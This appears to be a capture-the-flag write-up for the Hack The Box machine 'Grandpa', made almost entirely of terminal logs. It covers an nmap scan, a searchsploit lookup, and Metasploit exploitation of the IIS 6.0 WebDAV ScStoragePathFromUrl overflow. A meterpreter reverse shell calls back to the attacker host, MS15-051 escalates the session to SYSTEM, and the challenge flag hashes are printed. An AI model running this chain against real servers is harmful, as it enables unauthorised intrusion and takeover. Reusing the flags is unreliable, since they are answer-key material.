

#### Grandpa

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Exploitation and Privilege Escalation](#exploitation-and-privilege-escalation)

###### Attacker Info

```sh
root@kali:~/grandpa# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.19  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 8467  bytes 1787717 (1.7 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 9621  bytes 1527969 (1.4 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 889  bytes 252962 (247.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 889  bytes 252962 (247.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.13  netmask 255.255.254.0  destination 10.10.14.13
        inet6 fe80::23dc:6b15:11b5:75aa  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::100b  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 397  bytes 50115 (48.9 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 5717  bytes 682702 (666.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/grandpa#
```

###### Nmap Scan

```sh
root@kali:~/grandpa# nmap -sV -sC -oA grandpa.nmap 10.10.10.14

Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-05 13:43 EST
Nmap scan report for 10.10.10.14
Host is up (0.26s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unkown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Mon, 05 Feb 2018 18:44:42 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.45 seconds
root@kali:~/grandpa#
```

```
http://10.10.10.14
```



```sh
root@kali:~/grandpa# searchsploit "IIS 6.0"

-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Microsoft IIS 4.0/5.0/6.0 - Internal IP Address/Internal Network Name Disclosure                                                                                    | exploits/windows/remote/21057.txt
Microsoft IIS 5.0/6.0 FTP Server (Windows 2000) - Remote Stack Overflow                                                                                             | exploits/windows/remote/9541.pl
Microsoft IIS 5.0/6.0 FTP Server - Stack Exhaustion Denial of Service                                                                                               | exploits/windows/dos/9587.txt
Microsoft IIS 6.0 - '/AUX / '.aspx' Remote Denial of Service                                                                                                        | exploits/windows/dos/3965.pl
Microsoft IIS 6.0 - ASP Stack Overflow Stack Exhaustion (Denial of Service) (MS10-065)                                                                              | exploits/windows/dos/15167.txt
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow                                                                                            | exploits/windows/remote/41738.py
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (1)                                                                                                         | exploits/windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (2)                                                                                                         | exploits/windows/remote/8806.pl
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (PHP)                                                                                                       | exploits/windows/remote/8765.php
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch)                                                                                                     | exploits/windows/remote/8754.patch
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities                                                                                                            | exploits/windows/remote/19033.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------------
Shellcodes: No Result
root@kali:~/grandpa#
```

###### Exploitation and Privilege Escalation

```sh
root@kali:~/grandpa# msfconsole
msf > search ScStoragePathFromUrl
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                                 Disclosure Date  Rank    Description
   ----                                                 ---------------  ----    -----------
   exploit/windows/iis/iis_webdav_scstoragepathfromurl  2017-03-26       manual   Microsoft IIS WebDav ScStoragePathFromUrl Overflow


msf > use exploit/windows/iis/iis_webdav_scstoragepathfromurl
msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > show options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                           yes       The target address
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86


msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set LHOST 10.10.14.13
LHOST => 10.10.14.13
msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set LPORT 4444
LPORT => 4444
msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set RHOST 10.10.10.14
RHOST => 10.10.10.14
msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > show options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST          10.10.10.14      yes       The target address
   RPORT          80               yes       The target port (TCP)
   SSL            false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI      /                yes       Path of IIS 6 web application
   VHOST                           no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.13      yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Microsoft Windows Server 2003 R2 SP2 x86


msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > exploit

[*] Started reverse TCP handler on 10.10.14.13:4444
[*] Sending stage (179779 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.14:1070) at 2018-02-05 14:31:05 -0500

meterpreter > sysinfo
Computer        : GRANPA
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System
 220   280   rundll32.exe       x86   0                                      C:\WINDOWS\system32\rundll32.exe
 272   4     smss.exe
 280   1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 324   272   csrss.exe
 348   272   winlogon.exe
 396   348   services.exe
 408   348   lsass.exe
 600   396   svchost.exe
 656   348   logon.scr
 680   396   svchost.exe
 740   396   svchost.exe
 768   396   svchost.exe
 804   396   svchost.exe
 940   396   spoolsv.exe
 968   396   msdtc.exe
 1080  396   cisvc.exe
 1124  396   svchost.exe
 1184  396   inetinfo.exe
 1224  396   svchost.exe
 1328  396   VGAuthService.exe
 1412  396   vmtoolsd.exe
 1460  396   svchost.exe
 1564  600   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 1600  396   svchost.exe
 1716  396   alg.exe
 1824  600   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1892  396   dllhost.exe
 2436  600   wmiprvse.exe
 3852  1080  cidaemon.exe
 3896  1080  cidaemon.exe
 3920  1080  cidaemon.exe

meterpreter > migrate 1564
[*] Migrating from 220 to 1564...
[*] Migration completed successfully.
meterpreter > background
[*] Backgrounding session 1...
msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > search suggest
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                             Disclosure Date  Rank    Description
   ----                                             ---------------  ----    -----------
   auxiliary/server/icmp_exfil                                       normal  ICMP Exfiltration Service
   exploit/windows/browser/ms10_018_ie_behaviors    2010-03-09       good    MS10-018 Microsoft Internet Explorer DHTML Behaviors Use After Free
   exploit/windows/smb/timbuktu_plughntcommand_bof  2009-06-25       great   Timbuktu PlughNTCommand Named Pipe Buffer Overflow
   post/multi/recon/local_exploit_suggester                          normal  Multi Recon Local Exploit Suggester
   post/osx/gather/enum_colloquy                                     normal  OS X Gather Colloquy Enumeration


msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > show sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  NT AUTHORITY\NETWORK SERVICE @ GRANPA  10.10.14.13:4444 -> 10.10.10.14:1070 (10.10.10.14)

msf post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on.
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 38 exploit checks are being tried...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf post(multi/recon/local_exploit_suggester) >
msf post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_image
msf exploit(windows/local/ms15_051_client_copy_image) > show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf exploit(windows/local/ms15_051_client_copy_image) > set SESSION 1
SESSION => 1
msf exploit(windows/local/ms15_051_client_copy_image) > exploit

[*] Started reverse TCP handler on 192.168.1.19:4444
[*] Launching notepad to host the exploit...
[+] Process 548 launched.
[*] Reflectively injecting the exploit DLL into 548...
[*] Injecting exploit into 548...
[*] Exploit injected. Injecting payload into 548...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Exploit completed, but no session was created.
msf exploit(windows/local/ms15_051_client_copy_image) > set LHOST 10.10.14.13
LHOST => 10.10.14.13
msf exploit(windows/local/ms15_051_client_copy_image) > exploit

[*] Started reverse TCP handler on 10.10.14.13:4444
[*] Launching notepad to host the exploit...
[+] Process 3532 launched.
[*] Reflectively injecting the exploit DLL into 3532...
[*] Injecting exploit into 3532...
[*] Exploit injected. Injecting payload into 3532...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (179779 bytes) to 10.10.10.14
[*] Meterpreter session 2 opened (10.10.14.13:4444 -> 10.10.10.14:1072) at 2018-02-05 14:36:44 -0500

meterpreter > sysinfo
meterpreter > sysinfo
Computer        : GRANPA
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > shell
Process 3724 created.
Channel 1 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\WINDOWS\system32>
```

```
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
9359e905a2c35f861f6a57cecf28bb7b
C:\Documents and Settings\Administrator\Desktop>
```

```
C:\Documents and Settings\Harry\Desktop>type user.txt
type user.txt
bdff5ec67c3cff017f2bedc146a5d869
C:\Documents and Settings\Harry\Desktop>
```
